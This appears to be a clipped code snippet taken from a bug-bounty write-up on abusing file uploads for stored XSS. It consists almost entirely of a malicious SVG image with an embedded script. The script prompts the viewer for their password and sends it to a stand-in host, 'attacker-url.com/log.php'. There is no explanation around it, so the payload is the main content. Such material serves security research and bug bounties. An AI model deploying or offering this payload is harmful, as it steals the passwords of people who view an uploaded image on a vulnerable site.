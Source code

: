 Source: https://kunalkhubchandani.medium.com/how-i-was-rewarded-a-1000-bounty-after-abusing-file-upload-functionality-to-stored-xss-945a40ac6f94

```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd"><svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
<polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>

        <script> 
                var passwd = prompt("Enter your password to continue");
                var xhr = new XMLHttpRequest();
                xhr.open("GET","https://attacker-url.com/log.php?password="+encodeURI(passwd));
                xhr.send();
        </script>

</svg>
```
